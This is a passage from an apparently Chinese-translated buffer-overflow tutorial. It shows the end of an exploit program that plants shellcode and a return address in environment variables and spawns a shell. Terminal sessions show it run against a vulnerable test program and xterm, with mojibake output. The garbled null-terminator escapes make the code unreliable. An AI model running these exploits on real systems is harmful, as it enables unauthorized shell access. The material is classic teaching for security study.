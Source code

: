 &nbsp;&nbsp;buff[bsize - 1] = '"0';

&nbsp;&nbsp;egg[eggsize - 1] = '"0';

&nbsp;&nbsp;memcpy(egg,"EGG=",4);

&nbsp;&nbsp;putenv(egg);

&nbsp;&nbsp;memcpy(buff,"RET=",4);

&nbsp;&nbsp;putenv(buff);

&nbsp;&nbsp;system("/bin/bash");

}

------------------------------------------------------------------------------

&nbsp; &nbsp; 用这个新的破解程序来试试我们的漏洞测试程序:

&nbsp; &nbsp; 

------------------------------------------------------------------------------
  
[aleph1]$ ./exploit4 768

Using address: 0xbffffdb0
  
[aleph1]$ ./vulnerable $RET

$

------------------------------------------------------------------------------

&nbsp; &nbsp; 成功了, 再试试xterm:

&nbsp; &nbsp; 

------------------------------------------------------------------------------
  
[aleph1]$ export DISPLAY=:0.0
  
[aleph1]$ ./exploit4 2148

Using address: 0xbffffdb0
  
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET

Warning: Color name

"挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨

挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨挨

(此处截短多行输出)

挨挨挨

Warning: some arguments in previous message were lost

$

------------------------------------------------------------------------------
